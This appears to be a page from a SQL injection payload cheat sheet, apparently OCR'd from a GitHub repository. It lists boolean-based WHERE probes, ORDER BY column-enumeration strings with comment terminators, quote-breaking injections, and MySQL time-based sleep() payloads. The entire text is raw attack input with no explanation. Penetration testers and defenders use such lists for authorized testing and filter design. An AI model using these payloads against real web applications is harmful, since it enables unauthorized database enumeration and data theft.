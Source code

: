 ```
WHERE 1=1 AND 1=1#
WHERE 1=1 AND 1=0#
WHERE 1=1 AND 1=1--
WHERE 1=1 AND 1=0--
```
Using `ORDER` :
```
ORDER BY 1-- 
ORDER BY 2-- 
ORDER BY 3-- 
ORDER BY 4-- 
ORDER BY 5-- 
ORDER BY 6-- 
ORDER BY 7-- 
ORDER BY 8-- 
ORDER BY 9-- 
ORDER BY 10--
ORDER BY 1# 
ORDER BY 2# 
ORDER BY 3# 
ORDER BY 4# 
ORDER BY 5# 
ORDER BY 6# 
ORDER BY 7# 
ORDER BY 8# 
ORDER BY 9# 
ORDER BY 10# 
ORDER BY 1 
ORDER BY 2 
ORDER BY 3 
ORDER BY 4 
ORDER BY 5 
ORDER BY 6 
ORDER BY 7 
ORDER BY 8 
ORDER BY 9 
ORDER BY 10
```
```
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
```

# Time Based SQL Injection Payloads

MySql :
```
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
```
